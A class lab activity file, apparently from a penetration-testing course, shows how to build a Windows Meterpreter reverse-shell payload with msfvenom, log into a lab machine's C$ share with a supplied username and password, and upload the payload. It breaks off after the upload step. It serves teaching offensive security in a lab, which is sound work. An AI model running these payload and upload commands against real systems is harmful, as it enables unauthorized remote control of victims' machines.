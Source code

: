 - [Class Do Activity File: Custom Payload with Msfvenom](Activities/01_MSFVenom/README.md)

1. Make sure you're in your home directory, then generate a Windows Meterpreter payload using the following commands:

    - `cd ~`

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`

    ![A screenshot depicts the results of the commands.](Images/msfvenom.PNG)

2. Next, use SMBClient in Kali to interact with the Windows machine's file system over SMB. To connect to the remote filesystem, type `smbclient //172.22.117.20/C$ -U megacorpone/tstark`.

    - This connects to the `C` drive on the remote machine as the user `tstark`. 

3. You will then be asked for a password. Input `tstark`'s password: `Password!`

4. List the files in the current directory using the following command:

    - `ls`

    ![A screenshot depicts the results of the command.](Images/smbclient.PNG)

5. Upload your payload via the following command:

    - `put shell.exe`
